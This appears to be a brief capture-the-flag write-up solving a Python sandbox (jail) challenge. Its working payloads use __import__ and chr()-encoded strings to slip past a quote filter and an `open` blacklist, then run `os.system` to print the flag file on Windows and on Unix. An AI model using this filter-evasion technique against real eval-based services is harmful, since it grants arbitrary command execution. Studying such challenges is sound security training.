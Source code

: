 # Solution
You have access to global variables (see `g`), just `open` is blacklisted.

That means you can import stuff using `__import__`.

Since `"` and `'` are replaced from the input with an empty string, you need to create your string using `chr(ascii)`

The following executes a system command to print the contents of the file.
##### Windows: 
`__import__("os").system("type flag")`<br>
encoded: `__import__(chr(0x6F)+chr(0x73)).system(chr(0x74)+chr(0x79)+chr(0x70)+chr(0x65)+chr(0x20)+chr(0x66)+chr(0x6C)+chr(0x61)+chr(0x67))`
##### Unix:
`__import__("os").system("cat flag")`<br>
encoded: `__import__(chr(0x6F)+chr(0x73)).system(chr(0x63)+chr(0x61)+chr(0x74)+chr(0x20)+chr(0x66)+chr(0x6C)+chr(0x61)+chr(0x67))`
